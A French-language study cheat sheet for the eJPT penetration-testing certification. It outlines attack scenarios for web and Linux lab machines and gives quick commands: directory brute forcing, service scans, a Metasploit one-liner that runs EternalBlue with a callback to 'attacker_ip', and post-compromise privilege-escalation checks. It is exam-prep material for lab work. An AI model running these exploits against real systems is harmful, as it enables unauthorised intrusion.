 ### 🔥 Scénario 2: Application web
1. ✅ `gobuster dir -u http://target -w common.txt`
2. ✅ Identifier technologie (WordPress, upload, etc.)
3. ✅ Exploitation selon vulnérabilité
4. ✅ Upload shell → Handler Metasploit
5. ✅ Énumération système post-compromise

### 🔥 Scénario 3: Machine Linux avec services
1. ✅ `nmap -sV -sC target`
2. ✅ Énumération services (SSH, FTP, Samba)
3. ✅ Brute force ou exploit selon service
4. ✅ Shell → `uname -a`, `sudo -l`, `find / -perm -4000`
5. ✅ LinPEAS ou escalation manuelle

---

## ⚡ Commandes rapides par situation

### 🚨 Si machine Windows trouvée
```bash
# One-liner rapide
nmap -sV target && msfconsole -x "use auxiliary/scanner/smb/smb_ms17_010; set RHOSTS target; run; use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS target; set LHOST attacker_ip; exploit"
```

### 🚨 Si service web trouvé
```bash
# Énumération web rapide
gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
nikto -h http://target
```

### 🚨 Si machine Linux trouvée
```bash
# Après compromise
uname -a && id && sudo -l && find / -perm -4000 2>/dev/null
```

---

## 🎯 Points critiques pour l'eJPT

### ⭐ Services les plus exploités
1. **SMB (445)** - EternalBlue très fréquent
2. **HTTP (80)** - Upload shells, SQLi
3. **FTP (21)** - Anonymous, ProFTPD
4. **SSH (22)** - Brute force, weak passwords

### ⭐ Exploits incontournables
- `ms17_010_eternalblue` (Windows)
- `usermap_script` (Samba Linux)
- Upload shells web
- Brute force SSH/FTP
